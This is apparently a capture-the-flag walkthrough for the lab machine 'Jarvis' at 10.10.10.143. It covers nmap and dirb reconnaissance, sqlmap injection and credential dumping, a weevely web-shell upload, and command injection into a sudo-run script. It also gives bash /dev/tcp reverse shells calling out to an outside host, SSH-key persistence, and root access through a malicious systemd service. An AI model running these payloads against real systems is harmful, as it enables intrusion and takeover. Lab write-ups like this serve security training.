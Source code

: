 Jarvis:
# When running scans and injections on the website you will be banned each time you run.
Helpful links:
https://medium.com/@happyholic1203/phpmyadmin-4-8-0-4-8-1-remote-code-execution-257bcc146f8e
https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
https://medium.com/bugbountywriteup/sqlmaps-os-shell-backdooring-website-with-weevely-8cb6dcf17fa4
Tools:
OWASP-ZAP,dirb,sqlmap,nmap,systemctl,weevely,lots of research
Other:
Infoblox NetMRI 7.1.4 Shell Escape / Privilege Escalation
~exploit/multi/http/phpmyadmin_lfi_rce > reverse shell if you have creds. Creds can be found after running sqlmap, but getting a reverse shell and escaping to other users is a little easier when not in metasploit.


Host Jarvis: 10.10.10.143
nmap -sC -sV -A 10.10.10.143

	22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.25 ((Debian))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.25 (Debian)
	|_http-title: Stark Hotel

Run 'dirb http://10.10.10.143'
http://10.10.10.143/phpmyadmin/* looks interesting > http://10.10.10.143/phpmyadmin/libraries/
--
SQLMap:
sqlmap -u 'url' --dbs
sqlmap -u 'url' --tables -D mysql
sqlmap -u 'url' --colums -D mysql -T 'name'
sqlmap -u 'url' --dump -D mysql -T 'name' (will dump what is inside to screen)
http://10.10.10.143/room.php?cod=1
http://10.10.10.143/room.php?cod=2
http://10.10.10.143/room.php?cod=3
http://10.10.10.143/room.php?cod=4
http://10.10.10.143/room.php?cod=5
http://10.10.10.143/room.php?cod=6
http://10.10.10.143/room.php?cod=7
http://10.10.10.143/room.php?cod=8-2 > Might be a good one
DataBases:
hotel
information_schema
mysql
performance_schema
test
wskce

Mysql databases usually hold users and passwords, use sqlmap to gather information that might be useful. 'sqlmap -hh' will give all the information needed in the event of going down the rabbit hole.

	sqlmap -u http://10.10.10.143/room.php?cod=8-2 --columns -D mysql -T user
	sqlmap -u http://10.10.10.143/room.php?cod=8-2 --dump -D mysql -T user -C Password
Password: imissyou User: DBadmin > password can be decrypted through sqlmap or you can take the hash and run it through hashcat

Go to the phpmyadmin page and login. After logging in, user could create a reverse shell by making a new entry into the db but sqlmap is a little faster.
\\
'sqlmap -u http://10.10.10.143/room.php?cod=8-2 -D mysql --os-shell' this will give an interactive shell to the user if the database is exploitable.

Use weevely to generate a reverse shell payload that can be uploaded to the website to gain access as www-data. Using the --os-shell will only go so far, it still is not a full tty shell.

weevely generate r0m /root/Desktop/sys.php - generates the payload > then use that file in the upload
weevely http://10.10.10.143/sys.php r0m - After the file has been uploaded, use this to access the payload to gain access
//
To make things easier, create a reverse shell in /tmp that will allow you to not use the weevely shell that was created. Do note that making changes to files can only be done in the weevely shell but will help you move around as well as try many ways to escape the shell jail. Some of the commands to view what things you can and cannot do need to be done outside of the payload shell. (use a reverse shell and nc to get another shell to work in)

Inside a nc reverse shell, user can notice that there is a program that can be run by running 'sudo -l' with sudo permissions

	sudo -u pepper /var/www/Admin-Utilities/simpler.py -p (prompt for ip on next line) 
	$(bash shell.sh) - this file should be made in the same place that the script is run, unless the path to the file is listed in the command. 

Inside the shell.sh file 

	shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.60/8889 0>&1
	
On kali listen to port you set for shell.sh to get reverse into pepper, since pepper is the user that can run the script/program.

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p $(cat /home/pepper/user.txt) > to get the flag from pepper if there are difficulties getting a shell as pepper.
\\
After you have a shell as pepper, notice that the shell still is not a full shell. SSH is your friend and creating a bypass for pepper's password can be done by creating ssh keys that will be used to get in
>ssh-keygen 
	move private key to kali
rename id_rsa.pub to 'authorized_keys'
	ssh using id_rsa to pepper@10.10.10.143
should be able to ssh as pepper 

Section 2:
Now that ssh as pepper has been achieved, use nc to move over pspy64(process watcher) and or linenum(to check permissons on important things) to get the lay of the land as to what to do next. Also, can just make the files or use 'ps' and find/grep commands to check permissions, but adding scripts will move the process along faster.

https://gtfobins.github.io/gtfobins/systemctl/ > this link will help with gaining root
systemctl: ( will note that pepper can start/make services but the owner of the priv. is root. Will most likely give a root shell if exploitable)
systemctl enable /tmp/name.service (to enable the service)
systemctl start name.service (to start the service)

name.service:
[Unit]
Description=root shell
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
ExecStart=/usr/bin/env bash /tmp/top.sh

[Install]
WantedBy=multi-user.target

\\
inside top.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.60/8889 0>&1

With nc listening to the port from the shell made, when the system is started by root. Root access has been achieved.
